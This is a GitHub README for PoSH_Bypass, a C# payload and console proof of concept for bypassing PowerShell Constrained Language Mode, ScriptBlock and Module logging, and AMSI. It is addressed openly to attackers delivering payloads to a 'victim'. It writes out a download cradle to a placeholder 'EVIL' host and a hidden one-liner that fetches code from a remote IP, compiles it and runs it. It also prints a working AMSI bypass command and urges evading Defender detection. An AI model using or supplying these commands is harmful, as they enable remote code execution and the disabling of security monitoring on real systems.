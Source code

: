 ﻿# PoSH_Bypass

PoSHBypass is a payload and console proof of concept that allows an attatcker or for that matter a legitimate user to bypass PowerShell's 'Constrianed Language Mode, AMSI and ScriptBlock and Module logging'.
The bulk of this concept is the combination of 3 other researcher's separate pieces of work, I've stuck these 3 elements together as my first attempt at non 'Hello World!' C# project.
* Constrained Language Mode is credited to James Forshaw and is detailed here in his blog series surrounding Windows 10 S and Device Guard - https://tyranidslair.blogspot.com/2017/08/copy-of-device-guard-on-windows-10-s.html
* PowerShell ScriptBlock and Module logging is creditied to Lee Christensen - https://github.com/leechristensen/Random/blob/master/CSharp/DisablePSLogging.cs
* AMSI bypass Matt Graeber @mattifestation - https://twitter.com/mattifestation/status/735261176745988096?lang=en

## PoSH_Bypass_Payload

In order to make use of this payload all that is required is a newly generated Base64 encoded payload form PoshC2 or Empire or which ever framework you chose, I've tested it with PoschC2 and Empire. Just take the encoded section from the appropriate payload and paste it straight into the string Payload section of the code.
Now just have Visual Studio compile the payload.

How you get this payload to your victim is upto you, but remember you are dealing with constrained language mode, so your standard download cradle's utilising
```powershell
IEX (New-Object Net.Webclient).downloadstring("http://EVIL/evil.ps1")
```
Won't work
Something like this could help out though;

```powershell
$ua = 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-GB)';$uri = 'http://192.168.32.143:8000/sourcecode.txt';$IESettings = Get-ItemProperty 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings';if ($IESettings.ProxyEnable -eq 1){$Proxy = "http://$(($IESettings.ProxyServer.Split(';') | ? {$_ -match 'ttp='}) -replace '.*=')";$request = Invoke-WebRequest -uri $uri -UserAgent $ua -ProxyUseDefaultCredentials -Proxy $proxy} else {$request = Invoke-WebRequest -uri $uri -UserAgent $ua };$request.Content | Out-File $env:userprofile\AppData\Local\Temp\sourcecode.txt;Start-Process -FilePath "$env:SystemRoot\Microsoft.NET\Framework\v4.0.30319\csc.exe" -ArgumentList "/unsafe /out:$env:userprofile\AppData\Local\Temp\Program.exe $env:userprofile\AppData\Local\Temp\sourcecode.txt" -WindowStyle Hidden -Wait;Start-Process -FilePath "$env:userprofile\AppData\Local\Temp\Program.exe" -WindowStyle Hidden
```

The above uses Invoke-Webrequest and is web proxy aware, it downloads, compiles and runs the payload.

## PoSh_Bypass

Just compile this code and its ready to use, drop it on the box and run it, a new PowerShell window will open up and you'll be able to use it just as normal, without Constrained Mode or ScriptBlock logging, one thing I haven't sorted out is automatic AMSI bypass, (down to my lack of C# knowlegde no doubt :;). So to counter AMSI the first command you should enter is the bypass command given my Matt Graeber.

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

There's a good chance this might actually get picked up by Defender, so you'll have to be creative to avoid the detection, but thats part of the fun.
